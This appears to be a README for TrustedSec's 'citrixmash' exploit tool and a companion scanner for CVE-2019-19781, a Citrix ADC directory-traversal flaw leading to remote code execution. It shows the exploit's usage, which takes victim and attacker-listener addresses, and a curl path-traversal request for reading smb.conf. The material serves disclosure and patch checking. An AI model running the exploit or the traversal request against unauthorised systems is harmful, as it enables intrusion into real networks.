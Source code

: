 # CVE-2019-19781

This was only uploaded due to other researchers publishing their code first. We would have hoped to have had this hidden for awhile longer while defenders had appropriate time to patch their systems.

We are all for responsible disclosure, in this case - the cat was already out of the bag.

Exploits: CVE-2019-19781

## Citrixmash (CVE-2019-19781 exploit)

root@stronghold-nix:/home/relik/Desktop/git/cve-2019-19781# python citrixmash.py 

Citrixmash v0.1 - Exploits the Citrix Directory Traversal Bug: CVE-2019-19781
Tool Written by: Rob Simon and Dave Kennedy
Contributions: The TrustedSec Team 
Website: https://www.trustedsec.com
INFO: https://www.trustedsec.com/blog/critical-exposure-in-citrix-adc-netscaler-unauthenticated-remote-code-execution/
Forensics and IOCS: https://www.trustedsec.com/blog/netscaler-remote-code-execution-forensics/

This tool exploits a directory traversal bug within Citrix ADC (NetScalers) which calls a perl script that is used
to append files in an XML format to the victim machine. This in turn allows for remote code execution.

Be sure to cleanup these two file locations:
    /var/tmp/netscaler/portal/templates/
    /netscaler/portal/templates/

Note that DNS hostnames and IP addresses are supported in victimaddress and attackerip_listener fields.

Usage:

python citrixmash.py <victimaddress> <victimport> <attackerip_listener> <attacker_port>

usage: citrixmash.py [-h] target targetport attackerip attackerport

## CVE-2019-19781 Scanner

This is a simple test to see if the server is still vulnerable to CVE-2019-19781.

Usage: python3 cve-2019-19781.py <serverip> <serverport>

Note you can use CIDR notations such as 192.168.1.1/24 and hostnames as well.

It will result if the server is still vulnerable or not. You can only do one server at a time.

CVE-2019-19781-Scanner
Company: TrustedSec
Written by: Dave Kennedy
This will look to see if the remote system is still vulnerable to CVE-2019-19781. This 
will only scan one host at a time.
You can use CIDR notations as well for example: 192.168.1.1/24
You can use hostnames instead of IP addresses also.
Example: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443
Example2: python3 cve-2019-19781_scanner.py 192.168.1.1 443
Example3: python3 cve-2019-19781_scanner.py fakewebsiteaddress.com 443
Example4: python3 cve-2019-19781_scanner.py as15169 443
Example5: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443 verbose
Usage: python3 cve-2019-19781_scanner.py targetip targetport

usage: cve-2019-19781_scanner.py [-h] target targetport [verbose]


## Manually Validate Patch

If you want to test to see if this exposure is mitigated use the following:

curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is

Either a 403 means that you are patched or if it returns a Citrix website and NOT the smb.conf file itself.

If you can see smb.conf, then you are vulnerable.

## Installation

To install the requirements, you will need to run the command below. Note that it is important to have version
1.24.3 or lower for python-urllib3 installed in order for the attack and scanner to work successfully. There
was a new RFC implementation for urllib3 and bug has been submitted to maintainers to fix:

https://github.com/urllib3/urllib3/pull/1487

pip3 install -r requirements.txt
